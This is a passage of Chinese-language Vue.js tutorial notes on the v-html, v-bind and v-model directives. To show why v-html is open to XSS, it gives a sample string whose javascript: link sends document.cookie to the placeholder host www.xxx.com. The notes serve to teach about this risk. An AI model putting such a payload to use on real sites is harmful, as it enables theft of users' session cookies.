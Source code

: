 ```
作用：用于解析html语法
```

```html
<div v-html="con"></div>
```

容易被xss注入

```js
   <div v-html="str" class="root"></div>
</body>
<script>
    new Vue({
        el: '.root',
        data: {
            str: '<a href=javascript:location.href="http://www.xxx.com"+document.cookie>点击链接</a>'
        }
    })
```

##### 3、v-bind v-model

v-bind单向绑定

```
作用：动态绑定属性，我们可以简写成 :

<标签 v-bind:属性名 = '值'></标签>
```

用图片的src 和 a标签的href属性测试看看

```html

<h1 title="title">{{msg}}</h1>



<h1 v-bind:title="title">{{msg}}</h1>

<hr />

<img :src="imgUrl" alt="" />
<a :href="url">百度</a>
```



v-model双向绑定

只能应用在表单类元素上,input,Select...(存在value)

```js
<body>
    <div class="root">
        <input type="text" v-bind:value="name">
        <input type="text" v-model:value="name">
    </div>
</body>
<script>
    new Vue({
        el:'.root',
        data:{
            name:'名字'
        }
    })
</script>
```
